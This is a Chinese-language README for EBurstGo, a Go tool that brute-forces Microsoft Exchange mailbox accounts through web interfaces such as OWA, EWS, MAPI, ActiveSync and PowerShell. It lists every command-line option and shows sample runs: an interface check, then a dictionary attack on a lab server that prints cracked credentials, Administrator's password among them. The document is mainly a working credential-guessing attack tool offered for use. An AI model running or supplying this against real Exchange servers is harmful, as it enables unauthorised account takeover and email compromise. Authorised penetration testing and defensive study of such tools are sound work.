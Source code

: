# EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -pass string
    	指定密码
  -passf string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -userf string
    	用户名字典
  -verbose
    	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[*] 用户名:7 密码:9 共计:63
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

已知 bug:
- `/oab` 接口存在问题, 待解决
- `/powershell` 接口 (Kerberos 认证) 待支持